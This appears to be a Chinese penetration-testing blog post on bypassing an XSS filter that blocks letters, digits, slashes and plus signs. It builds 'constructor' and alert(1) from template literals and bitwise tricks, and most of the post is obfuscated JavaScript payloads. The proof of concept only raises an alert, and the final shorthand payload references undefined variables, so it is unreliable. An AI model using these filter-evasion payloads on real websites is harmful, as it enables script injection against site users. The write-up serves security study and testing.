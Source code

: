 ​	最近在一次渗透中遇到了一个XSS，整个过程比较有趣，故记录下来。

​	该漏洞的输入点在后端过滤了数字、字母和斜杠（/），而输出点的位置在script标签内的字符串变量声明里，我们只需构造一个'-payload-'这样的payload便可以触发XSS，首先可以想到的是利用JSFuck，但不幸的是，后端还过滤了加号（%2b），于是便有了这篇文章的思路。

` 注，该漏洞的绕过方式还有很多种，这里仅仅只是提供一种绕过思路，算是对JSFuck的学习和拓展。`

​	这里首先提供一个思路

```javascript
[]["constructor"]["constructor"]("alert(1)")() 
```

​	在这种情况下，我们只需要构造出"constructor\"以及payload的字符串即可触发XSS。一个有意思的玩法便是通过字符串模板来构造，当然这里离不开${}和反引号。用几个例子来展示一下：

```javascript
![]  //  false

`![]`  //  "![]"

`${![]}`  //  "false"
```

​	字符串模板中的占位符的执行优先级是高于反引号的，我们可以利用占位符得到我们想要的对象，再得到其字符串。

```javascript
`${!![]}`   //  "true"

`${![]}`  //  "false"

`${{}}`   //   "[object Object]"

`${[][[]]}`  //  "undefined"
```

​	已经得到这么多字符串的情况下，我们可以利用索引来获取我们想要的字符，但加号被过滤了，我们还有什么办法可以快速构造数字的呢？

​	JS是弱类型语言，我们仅需要简单的运算即可得到基础的数字：

```javascript
[]-[]  //  0    0b0

!![]-[]  //  1    0b1

!![]<<!![]  //  2    0b10

!![]<<!![]<<!![]  // 4    0b100
```

​	通过位运算符得到这些基础数字后，可以执行的操作就很多了，我使用的是或运算，实际情况中还可以考虑其他的运算符。

```javascript
(!![]<<!![]<<!![]<<!![]<<!![]<<!![]<<!![]<<!![])|(!![]<<!![]<<!![]<<!![]<<!![]<<!![]<<!![])|(!![]<<!![]<<!![]<<!![]<<!![]<<!![])|(!![]<<!![]<<!![]<<!![])|(!![]<<![])  //  233
```

​	剩下的就是构造payload的时候了，通过我们前面所说的`[]["constructor"]["constructor"]("alert(1)")() ` 思路，按部就班的做就可以了。

```javascript
`${{}}`[!![]<<!![]<<!![]|!![]-[]]   //  "c"

`${{}}`[!![]-[]]  //  "o"

`${[][[]]}`[!![]-[]]  //  "n"

`${![]}`[!![]-[]|!![]<<!![]]  //  "s"

`${!![]}`[[]-[]]  //  "t"

`${!![]}`[!![]-[]]  //  "r"

`${[][[]]}`[[]-[]]  //  "u"

`${{}}`[!![]<<!![]<<!![]|!![]-[]]   //  "c"

`${!![]}`[[]-[]]  //  "t"

`${{}}`[!![]-[]]  // "o"

`${!![]}`[!![]-[]]  //  "r"
```

​	拼接这些字符为一整个字符串。

```javascript
`${`${{}}`[!![]<<!![]<<!![]|!![]-[]]}${`${{}}`[!![]-[]]}${`${[][[]]}`[!![]-[]]}${`${![]}`[!![]-[]|!![]<<!![]]}${`${!![]}`[[]-[]]}${`${!![]}`[!![]-[]]}${`${[][[]]}`[[]-[]]}${`${{}}`[!![]<<!![]<<!![]|!![]-[]]}${`${!![]}`[[]-[]]}${`${{}}`[!![]-[]]}${`${!![]}`[!![]-[]]}`   //  "constructor"

['constructor']['constructor']('alert(1)')()
```

​	构造payload

```javascript
_=`${`${{}}`[!![]<<!![]<<!![]|!![]-[]]}${`${{}}`[!![]-[]]}${`${[][[]]}`[!![]-[]]}${`${![]}`[!![]-[]|!![]<<!![]]}${`${!![]}`[[]-[]]}${`${!![]}`[!![]-[]]}${`${[][[]]}`[[]-[]]}${`${{}}`[!![]<<!![]<<!![]|!![]-[]]}${`${!![]}`[[]-[]]}${`${{}}`[!![]-[]]}${`${!![]}`[!![]-[]]}`;

[][_][_](`${`${!![][~[]]}`[!!{}<<![]]}${`${!![][~[]]}`[!!{}<<!![]]}${`${![][~[]]}`[(!![]<<!![])|!![]]}${`${![][~[]]}`[!!{}<<![]]}${`${![][~[]]}`[!{}<<![]]}(${!!{}<<![]})`)()
```

​	简略的写法也可以写成这样

```javascript
([,__,,,,___,____]=`${{}}`,[_____,,,,,,______,,,,,,_______,,,________]=`${[][~[]]}${!![][~[]]}${![][~[]]}`)[_=`${___}${__}${______}${_______}${____}${________}${_____}${___}${____}${__}${________}`][_](`${_________}${__________}${___________}${________}${____}(1)`)()
```

